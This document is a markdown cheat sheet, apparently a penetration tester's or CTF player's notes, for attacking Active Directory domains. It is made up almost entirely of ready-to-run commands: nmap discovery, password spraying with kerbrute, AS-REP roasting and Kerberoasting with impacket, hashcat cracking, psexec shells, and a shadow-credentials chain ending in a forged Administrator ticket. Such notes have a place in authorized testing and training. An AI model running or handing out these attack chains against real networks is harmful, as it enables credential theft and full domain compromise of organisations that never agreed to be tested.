### Active Directory

### AD Strategy
1. Start with nmap, to idenftiy the network.
2. Assume Breach strategy
3.    1. Get user, groups, computers

#### How to identify alive hosts in netowrk ?
1. Run nmap ping sweep, Command: `nmap -r -sn 192.168.110.0/24`
2. Run nmap ping sweep, Command: `nmap -r -sP 192.168.110.0/24` 

#### How to identify Domain Controller (DC) ?
1. Most probably a DC would be having open PORTS e.g 53 and **88 (KDC)**, 389, 636 which are not avbl to other Windows machines.
2. If you're in DC network, Command: `nmap -r -v --open -sC -sV -p53,88,389,636 <DC IP>`
3. If above command shows these ports **OPEN** ... You got **DC** !!!

### How to extract the underlying Windows OS via crackmapexec?
1. Command: `proxychains crackmapexec smb -d somedomain.htb -u user -p 'password' -dc-ip 192.168.110.52-55`

### How to Generate username combinations ?
1. Use https://github.com/urbanadventurer/username-anarchy

### How to know that username/password combination is valid - crakmapexec ?
1. If running follwing crackmapexec command against **DC** gives you **+** symbol, the **creds** are valid.
2. Command:  `proxychains crackmapexec smb -d somedomain.htb -u user -p 'password' -dc-ip 192.168.110.55`

### How to know that username/password combination is valid - kerbrute (password spray) ?
1. Command: `./kerbrute_linux_amd64 passwordspray --dc 192.168.110.55 -d somedomain.htb AD_users.txt 'password'`
2. Command: `./kerbrute_linux_amd64 -d internal.abc.local passwordspray allUsers.txt 'Password100!' --dc 192.168.210.16'`
   
#### Using impacket - To find all the usernames, email address etc?
1. Without username/password command: `proxychains GetADUsers.py somedomain.htb/ -no-pass -dc-ip 192.168.110.55`
2. With user/password of a valid domain user command: `proxychains GetADUsers.py somedomain.htb/ -no-pass -all -dc-ip 192.168.110.55`

#### Using impacket - Authentication Service Response (AS-REP) Roasting?
1. Highly unlikely today, as by default, in **Active Directory**, it is more likely the feature that **enables** this attack is **disabled**.
2. When DC Admin creates a user in DC, he has to explictly check option **Do not require Kerberos Pre-Authentication**.
3. Commamd: `proxychains GetNPUsers.py somedomain.htb/ -dc-ip 192.168.110.55 -usersfile ALL_AD_users.txt -format hashcat`
4. Command: `proxychains GetNPUsers.py somedomain.htb/someuser:'password' -dc-ip 192.168.110.55 -usersfile ALL_AD_users.txt -format hashcat`
5. If above command shows, *User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set*, this means, it doesn't work for this user. 
6. Crack the hashes, by running command: `hashcat -a 0 -m 18200 asrep-roast-hash.txt rockyou.txt`

#### Using impacket - Kerberoasting?
1. To get hashes, run command: `proxychains GetUserSPNs.py somedomain.htb/someuser:'password' -dc-ip 192.168.110.55 -request`
2. Cracking hashes: `hashcat -m 13100 kerberoasting.txt /usr/share/wordlists/rockyou.txt`

#### What to do if you have got valid user/password credentials --- after as-rep/kerb roasting ?
1. Lets assume Kerberoasting got successful, what to do next ?
2. Run cracmapexec, and if shows **Pwn3d!**, this means you can access that particular system.
3. Command: `proxychains crackmapexec smb 192.168.110.52-55 -u http_svc -p 'somepassword'`

#### Listing all the shares - crackmapexec ?
1. Command: `proxychains crackmapexec smb 192.168.110.52 -u http_svc -p 'somepassword' --shares`

#### Accessing that system e.g. we got creds after kerberoasting ?
1. Via psexec, command: `proxychains impacket-psexec somedomain.htb/http_svc:'somepassword'@192.168.110.52`
2. The above command would you give you shell. 

### After shell, use SYSINTERNALS AD Explorer  / Bloodhound
1. Remote Blooudhound from Kali, command: `proxychains bloodhound-python --zip -c all -d somedomain.local -u marcus -p 'Password100!' --dns-tcp -ns <DC IP address>`

### Useful commands - Assume Breach Appraoch - You're inside the DC network with valid user/pass combination
1. **Local vs Domain** - This command tells all the users present in the current system. Command: `net user` or `net user <username>`
3. **Local vs Domain** - This command tells all the users present in all the DC. Command: `net user /domain` or `net user <username>  /domain `

### AD Abuse - AddKeyCredentialLink [pywhisker.py -> gettgtpkinit.py - > getnthash.py -> impacket-lookupsid -> impacket-ticketer -> finally psexec / secretsdump)
1. `proxychains python3 pywhisker.py -d "somedomain.local" -u 'username' -p 'Password100'  --target "COMP-ABC-1$" --action "list"`
2. `proxychains python3 pywhisker.py -d "somedomain.local" -u 'username' -p 'Password100'  --target "COMP-ABC-1$" --action "add" --filename hacker`
3. `proxychains python3 gettgtpkinit.py -cert-pfx "hacker.pfx" -pfx-pass "VSDR4fkJazANDrGfis03" "somedomain.local/COMP-ABC-1\$" out.cache`
4. `proxychains python3 getnthash.py somedomain.local/COMP-ABC-1\$ -key bc39f3e57c5550412fbedd1430c3919f1f25f0a67117517242422029241d1c85`
5. `proxychains impacket-lookupsid somedomain.local/username@192.168.210.10(DC) | grep "Domain SID"`
6. `proxychains impacket-ticketer -nthash 89d0b56874f61ad38bad336a77b8ef2f -domain somedomain.local -domain-sid S-1-5-21-2734290894-461713716-141835440 Administrator -dc-ip 192.168.210.10(DC)`
7. `export KRB5CCNAME=Administrator.ccache`
8. `klist`
9. `impacket-psexec somedomain.local/Administrator@192.168.210.10 -target-ip 192.168.210.11(ADComputer) -dc-ip 192.168.210.10(DC) -no-pass -k`
